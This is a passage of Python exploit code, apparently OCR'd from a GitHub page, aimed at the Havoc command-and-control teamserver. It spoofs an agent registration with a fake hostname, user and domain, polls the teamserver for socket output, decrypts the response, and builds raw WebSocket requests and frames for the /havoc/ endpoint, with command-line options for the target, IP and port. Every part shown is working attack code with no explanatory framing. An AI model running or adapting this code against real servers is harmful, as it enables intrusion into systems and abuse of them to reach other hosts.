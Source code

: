 ```python
    data = agent_header + header_data


    print("[***] Trying to poll teamserver for socket output ...")
    r = requests.post(teamserver_listener_url, data=data, headers=headers, verify=False)
    if r.status_code == 200:
        print("[***] Read socket output successfully!")
    else:
        print(f"[!!!] Failed to read socket output - {r.status_code} {r.text}")
        return ""

    command_id = int.from_bytes(r.content[0:4], "little")
    request_id = int.from_bytes(r.content[4:8], "little")
    package_size = int.from_bytes(r.content[8:12], "little")
    enc_package = r.content[12:]

    return decrypt(AES_Key, AES_IV, enc_package)[12:]
    
def create_websocket_request(HOST, PORT):
	request = ( 
		f"GET /havoc/ HTTP/1.1\r\n"
		f"Host: {HOST}:{PORT}\r\n"
		f"Upgrade: websocket\r\n"
		f"Connection: Upgrade\r\n"
		f"Sec-WebSocket-Key: 5NUvQyzkv9bpu376gKd2Lg==\r\n"
		f"Sec-WebSocket-Version: 13\r\n"
		f"\r\n"
	).encode()
	return request
	
def build_websocket_frame(payload):
	payload_bytes = payload.encode("utf-8")
	frame = bytearray()
	frame.append(0x81)
	payload_length = len(payload_bytes)
	if payload_length <= 125:
		frame.append(0x80 | payload_length)
	elif payload_length <= 65535:
		frame.append(0x80 | 126)
		frame.extend(payload_length.to_bytes(2, byteorder="big"))
	else:
		frame.append(0x80 | 127)
		frame.extend(payload_length.to_bytes(8, byteorder="big"))

	masking_key = os.urandom(4)
	frame.extend(masking_key)
	masked_payload = bytearray(byte ^ masking_key[i % 4] for i, byte in enumerate(payload_bytes))
	frame.extend(masked_payload)
	return frame

parser = argparse.ArgumentParser()
parser.add_argument("-t", "--target", help="The listener target in URL format", required=True)
parser.add_argument("-i", "--ip", help="The IP to open the socket with", required=True)
parser.add_argument("-p", "--port", help="The port to open the socket with", required=True)
parser.add_argument("-A", "--user-agent", help="The User-Agent for the spoofed agent", default="Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36")
parser.add_argument("-H", "--hostname", help="The hostname for the spoofed agent", default="DESKTOP-7F61JT1")
parser.add_argument("-u", "--username", help="The username for the spoofed agent", default="Administrator")
parser.add_argument("-d", "--domain-name", help="The domain name for the spoofed agent", default="ECORP")
```